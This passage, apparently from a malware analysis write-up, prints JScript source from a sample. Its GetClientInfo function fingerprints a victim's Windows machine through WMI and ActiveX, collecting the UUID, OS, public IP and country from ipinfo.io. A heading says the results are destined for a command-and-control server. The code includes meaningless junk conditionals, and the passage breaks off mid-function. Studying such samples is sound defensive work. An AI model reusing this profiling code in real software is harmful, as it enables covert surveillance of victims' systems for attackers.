 ```js
   var ts=fso.OpenTextFile(tempName,1,false);
   result= ts.ReadAll();
   ts.Close();
  }
  catch(err){};
  return result;
 }
```

<h6>The following function shows how the collect of system informations is performed, this checks the internal reference in using WMI object by ActiveX and check the JSON response on from the ipinfo website in json and parse the result on the JSON for be sending to the C2.</h6>

```js

 function GetClientInfo()
 {
  var initInfo= new Object();
  try
  {
   var wmi=GetObject("winmgmts:{impersonationLevel=impersonate}!\\\\.\\root\\cimv2");
   for(var i= new Enumerator(wmi.ExecQuery("SELECT * FROM Win32_ComputerSystemProduct"));!i.atEnd();i.moveNext()){initInfo["uuid"]= i.item().UUID}
  }
  catch(err){initInfo["uuid"]= 'N/A'};
  if(!DownloadAndExecute){GetFilenameFromURL= null};
  try
  {
   var ipReq= new ActiveXObject("WinHttp.WinHttpRequest.5.1");
   ipReq.Open("GET","http://ipinfo.io/ip",false);
   if(LoadJsonParser=== 1){LoadJsonParser()};
   ipReq.Send();
   ipReq.WaitForResponse();
   ipRes= ipReq.ResponseText;
   initInfo["ip"]= ipRes.replace(/^\s+|\s+$/g,'')
  }
  catch(err){initInfo["ip"]= 'N/A'};
  try
  {
   var countryReq= new ActiveXObject("WinHttp.WinHttpRequest.5.1");
   countryReq.Open("GET","http://ipinfo.io/country",false);
   countryReq.Send();
   countryReq.WaitForResponse();
   countryRes= countryReq.ResponseText;
   initInfo["location"]= countryRes.replace(/^\s+|\s+$/g,'')
  }
  catch(err)
  {
   if(!LoadJsonParser){return};
   initInfo["location"]= 'N/A';
  };
  if(SendClientInfo=== null){ExecuteAndOutput(0);SendKnock= false};
  try
  {
   for(var i= new Enumerator(wmi.ExecQuery("SELECT * FROM Win32_OperatingSystem"));!i.atEnd();i.moveNext()){ initInfo["os"]= i.item().Caption; }
  }
  catch(err)
  {
   if(SendClientInfo=== 1){LoadJsonParser= null};
   initInfo["os"]= 'N/A';
  };
  try
  {
```